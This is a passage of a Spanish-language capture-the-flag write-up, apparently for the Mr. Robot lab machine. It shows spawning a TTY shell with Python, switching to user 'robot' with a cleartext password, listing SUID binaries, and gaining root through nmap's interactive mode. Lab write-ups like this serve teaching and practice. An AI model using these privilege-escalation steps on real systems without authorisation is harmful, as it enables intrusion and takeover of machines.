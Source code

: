 ```bash
$ python --version
Python 2.7.6
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:
```

Como bien sabemos, ahora somos el usuario `robot`, con privilegios de lectura del fichero que contiene la segunda flag, así que procedemos a revisar su contenido.

```bash
robot@linux:/$ head -c 10 /home/robot/key-2-of-3.txt
head -c 10 /home/robot/key-2-of-3.txt
822c739561
```
##ESCALAMIENTO

¡Perfecto! Ahora si vamos a revisar permisos por medio del comando `find`, así podremos ver qué tipo de utilidades puede ejecutar el usuario `robot` con privilegios.

```bash
robot@linux:/$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Vemos que `robot` puede ejecutar el comando `nmap` sin necesidad de ingresar credenciales.

Por medio del recurso [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#shell) identificamos una vía potencial de escalamiento de privilegios, ejecutando lo siguiente.

```bash
robot@linux:/$ nmap --interactive
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
#whoami
#root
```
